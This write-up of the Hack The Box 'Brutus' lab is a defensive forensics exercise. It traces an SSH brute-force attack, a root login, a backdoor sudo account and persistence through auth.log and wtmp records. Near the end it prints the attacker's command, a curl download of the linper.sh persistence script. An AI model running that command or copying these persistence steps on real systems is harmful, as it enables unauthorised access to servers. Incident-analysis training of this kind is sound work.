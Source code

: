 ```yaml
---
title: Brutus 
layout: page
permalink: /writeups/htb/brutus
---
```


# Brutus Sherlock Write-Up

**Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?** 

From analyzing , we can see the brute force begins at 06:31:31 from an IP: 65.2.161.68

```bash
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Invalid user admin from **65.2.161.68** port 46380
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Received disconnect from 65.2.161.68 port 46380:11: Bye Bye [preauth]
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Disconnected from invalid user admin 65.2.161.68 port 46380 [preauth]
Mar  6 06:31:31 ip-172-31-35-28 sshd[620]: error: beginning MaxStartups throttling
Mar  6 06:31:31 ip-172-31-35-28 sshd[620]: drop connection #10 from [65.2.161.68]:46482 on [172.31.35.28]:22 past MaxStartups
Mar  6 06:31:31 ip-172-31-35-28 sshd[2327]: Invalid user admin from 65.2.161.68 port 46392
Mar  6 06:31:31 ip-172-31-35-28 sshd[2327]: pam_unix(sshd:auth): check pass; user unknown
Mar  6 06:31:31 ip-172-31-35-28 sshd[2327]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=65.2.161.68
Mar  6 06:31:31 ip-172-31-35-28 sshd[2332]: Invalid user admin from 65.2.161.68 port 46444
Mar  6 06:31:31 ip-172-31-35-28 sshd[2331]: Invalid user admin from 65.2.161.68 port 46436
Mar  6 06:31:31 ip-172-31-35-28 sshd[2332]: pam_unix(sshd:auth): check pass; user unknown
Mar  6 06:31:31 ip-172-31-35-28 sshd[2332]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=65.2.161.68
Mar  6 06:31:31 ip-172-31-35-28 sshd[2331]: pam_unix(sshd:auth): check pass; user unknown
Mar  6 06:31:31 ip-172-31-35-28 sshd[2331]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=65.2.161.68
Mar  6 06:31:31 ip-172-31-35-28 sshd[2330]: Invalid user admin from 65.2.161.68 port 46422
Mar  6 06:31:31 ip-172-31-35-28 sshd[2337]: Invalid user admin from 65.2.161.68 port 46498
Mar  6 06:31:31 ip-172-31-35-28 sshd[2328]: Invalid user admin from 65.2.161.68 port 46390
Mar  6 06:31:31 ip-172-31-35-28 sshd[2335]: Invalid user admin from 65.2.161.68 port 46460
```

**The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?**

Analyzing auth.log once again looking for an accepted password confirmation we find one here: 

```bash
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
```

**Identify the UTC timestamp when the attacker logged in manually to the server and established a terminal session to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.**

For this it tells us to use the wtmp artifact to gain this timestamp. The artifact itself is a binary and therefore not readable text. However, we can use the utmpdump tool to read it as such:

```bash
utmpdump wtmp
```

and we can see after analyzing the wtmp output that it the time stamp of the first login is:

```bash
2024-03-06 06:32:45
```

**SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?**

Going back to analysis of the auth.log file, we can look or the first session the user gained as root. We see the following:

```bash
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
```

So in this case, session 37 is the session number. 

**The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?**

This question is asking us to find the name of the account the user created as root. 

```bash
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/gshadow: name=cyberjunkie
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: new group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
Mar  6 06:34:26 ip-172-31-35-28 passwd[2603]: pam_unix(passwd:chauthtok): password changed for cyberjunkie
Mar  6 06:34:31 ip-172-31-35-28 chfn[2605]: changed user 'cyberjunkie' information
Mar  6 06:35:01 ip-172-31-35-28 CRON[2614]: pam_unix(cron:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:35:01 ip-172-31-35-28 CRON[2616]: pam_unix(cron:session): session opened for user confluence(uid=998) by (uid=0)
Mar  6 06:35:01 ip-172-31-35-28 CRON[2615]: pam_unix(cron:session): session opened for user confluence(uid=998) by (uid=0)
Mar  6 06:35:01 ip-172-31-35-28 CRON[2614]: pam_unix(cron:session): session closed for user root
Mar  6 06:35:01 ip-172-31-35-28 CRON[2616]: pam_unix(cron:session): session closed for user confluence
Mar  6 06:35:01 ip-172-31-35-28 CRON[2615]: pam_unix(cron:session): session closed for user confluence
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to shadow group 'sudo'
```

From this part of auth.log, we see that ‘cyberjunkie’ the new user in question. They were given sudo permissions likely to use as a back door to log in from. 

**What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?**

For this question we can simply google the MITRE ATT&CK knowledge base and find the persistence sub-technique for creating users. 

 

![2025-05-27 18_42_56-Create Account, Technique T1136 - Enterprise _ MITRE ATT&CK®.png](attachment:1e954f09-efaf-47c1-afc3-436a3c481036:2025-05-27_18_42_56-Create_Account_Technique_T1136_-_Enterprise___MITRE_ATTCK.png)

in this case, since the user created a local account it would be T1136.001

**What time did the attacker's first SSH session end according to auth.log?**

We can find such information towards the end of the auth.log file and we see it is at 06:37:24:

```bash
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session closed for user root
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Session 37 logged out. Waiting for processes to exit.
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Removed session 37.
```

**The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?**

For this question, we are once again using the auth.log file. In most cases, commands are not logged in auth.log. However since the command was executed using sudo, authentication was required during the process and therefore being logged in auth.log. We can see the full command here: 

```bash
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
Mar  6 06:39:38 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
```

the command would be:

```bash
sudo /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```
